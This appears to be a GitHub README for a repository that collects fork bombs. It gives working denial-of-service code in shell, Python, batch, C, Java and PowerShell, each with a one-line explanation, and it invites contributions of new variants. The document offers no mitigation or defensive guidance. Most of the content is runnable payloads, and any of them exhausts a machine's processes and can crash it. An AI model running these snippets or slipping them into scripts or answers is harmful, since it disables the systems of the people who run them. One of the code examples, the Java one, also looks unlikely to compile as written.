 # Fork Bombs Collection

A repository to list and explain various fork bomb commands across different programming languages.

## What is a Fork Bomb?

A fork bomb is a denial-of-service attack that exploits the `fork` system call to create a large number of processes, consuming system resources and potentially causing the system to crash or become unresponsive. Fork bombs are recursive processes that call themselves repeatedly, leading to an exponential growth in the number of processes.

## List of Fork Bombs

### Shell Fork Bomb

The classic shell fork bomb, often attributed to Jaromil, is a 13-character command that can bring a system to its knees within seconds:

```shell
:(){ :|:& };:
```


This command defines a function`:`that calls itself twice in the background,leading to a rapid increase in the number of processes.The function is then called,initiating the fork bomb.


### Python Fork Bomb

A simple Python fork bomb can be written using the`os.fork()`method:


```python
import os
while True:
    os.fork()
```


This script continuously forks new processes,eventually exhausting system resources.


### Batch File Fork Bomb

A basic fork bomb in a Windows batch file can be implemented as follows:


```batch
@echo off
:start
start %0
goto start
```


This script starts a new instance of itself in an infinite loop,leading to a rapid increase in the number of processes.


### C Fork Bomb

A simple C fork bomb can be written using the`fork()`system call:


```c
#include <unistd.h>
int main() {
    while (1) {
        fork();
    }
}
```


This program continuously forks new processes,eventually exhausting system resources.


### Java Fork Bomb

A Java fork bomb can be implemented using the`Runtime.exec()`method:


```java
public class ForkBomb {
    public static void main(String[] args) {
        while (true) {
            Runtime.getRuntime().exec(new String[]{"java", "-cp", System.getProperty("java.class.path"), "ForkBomb"});
        }
    }
}
```


This program continuously starts new instances of itself,leading to a rapid increase in the number of processes.


### PowerShell Fork Bomb

A PowerShell fork bomb can be implemented as follows:


```powershell
while ($true) {
    Start-Process powershell.exe -ArgumentList "-NoExit", "Get-ChildItem -Recurse C:"
    Invoke-Expression -Command 'while ($true) { Start-Process powershell.exe -ArgumentList "-NoExit", "Get-ChildItem -Recurse C:" }'
}
```


This script starts new instances of PowerShell in an infinite loop,leading to a rapid increase in the number of processes.

```powershell
foreach ($i in 0..1) {
    Start-Process -FilePath powershell -ArgumentList '-File', $MyInvocation.MyCommand.Path 
}
```

Each instance of the script starts two new PowerShell processes that run the same script, and each of those starts two more, and so on.


## Latest Updates

As of the latest updates,there have been several discussions and implementations of fork bombs in various languages.Some of the recent repositories include:


• A collection of fork bombs in different languages,updated on January 4,2024.

• A simple fork bomb with explanations and mitigation techniques,updated on February 16,2024.


## Contributing

Contributions are welcome!If you have a new fork bomb or an interesting variation,please feel free to open a pull request.Here are the steps to contribute:


• Fork this repository.

• Create a new branch:`git checkout -b feature-branch`.

• Commit your changes:`git commit -m "Add new fork bomb"`.

• Push to your branch:`git push origin feature-branch`.

• Open a pull request.


License

This project is licensed under the MIT License-see the [LICENSE](https://github.com/mowhn/ForkBombHub/blob/main/LICENSE) file for details.


---
